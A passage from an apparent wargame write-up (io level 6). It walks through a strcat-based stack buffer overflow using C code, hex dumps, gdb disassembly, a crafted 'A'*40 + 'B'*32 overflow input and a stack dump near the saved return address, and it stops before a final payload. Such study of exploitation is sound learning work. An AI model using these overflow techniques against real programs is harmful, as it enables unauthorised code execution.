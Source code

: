         user.name[9] = 0;
        debugUser(&user);

        return 0;
    }

In this example, we setup a structure in which both fields have a size of 10. If you fill the first one with less than 10 chars, the second one won't be displayed, but if you fill the first field with exactly its size, there won't be any termination byte finishing the first string. So when you `printf` the whole string (with both fields) will be displayed:

    Displayed: < 10
    3c 20 31 30 0 0 0 0 0 0 69 6e 76 69 73 69 62 6c 65 0
                ^- This breaks the first string

    Displayed: = 10 charsvisible
    3d 20 31 30 20 63 68 61 72 73 76 69 73 69 62 6c 65 0 0 0
      no null byte to break the string until this one -^

    Displayed: = 10 char
    3d 20 31 30 20 63 68 61 72 0 76 69 73 69 62 6c 65 0 0 0
     manually added null byte -^

For the challenge, the flow of data is the following:

    input: name password
    greeting = "Hi " + name
    print greeting

But because we use `strcat` for the string concatenation, the whole string is appened to the greeting buffer, so if the name is exactly 40 chars, then the password will be added as well. This results in a total possible string of 72 chars, which is 8 more than the greeting buffer! Here's our overflow.

We are still limited in the size of our possible payload, but we know we can inject 8 bytes into memory, which is enough to pwn this executable.

Let's look at the memory during execution with `gdb`:

    level6@io:/levels$ gdb level06
    (gdb) disass main
    ...
    0x080486aa <+279>:   call   0x804851c <greetuser>
    0x080486af <+284>:   lea    -0xc(%ebp),%esp
    ...
    (gdb) disass greetuser
    ...
    0x0804857e <+98>:    mov    %eax,(%esp)
    0x08048581 <+101>:   call   0x80483d0 <strcat@plt>
    0x08048586 <+106>:   lea    -0x48(%ebp),%eax
    0x08048589 <+109>:   mov    %eax,(%esp)
    0x0804858c <+112>:   call   0x80483f0 <puts@plt>
    0x08048591 <+117>:   leave
    0x08048592 <+118>:   ret
    End of assembler dump.
    (gdb) b *0x08048581
    Breakpoint 1 at 0x8048581
    (gdb) b *0x08048591
    Breakpoint 2 at 0x8048591
    (gdb) r $(python -c "print 'A'*40 + ' ' + 'B'*32")
    Breakpoint 1, 0x08048581 in greetuser ()
    (gdb) x/44wx $esp
    0xbffffae0:     0xbffffaf0      0xbffffb40      0xbffffb04      0x0804993c
    0xbffffaf0:     0x00206948      0x08048208      0xbffffcd4      0xb7e50852
    0xbffffb00:     0xbfffff4d      0xb7e27a48      0x00000002      0xb7e2d438
    0xbffffb10:     0x08048258      0xbffffb90      0x00000000      0xbffffbdc
    0xbffffb20:     0xbffffbf8      0xb7ff2fe0      0x00000047      0xb7e9b920
    0xbffffb30:     0xb7e9b957      0x00000000      0xbffffbf8      0x080486af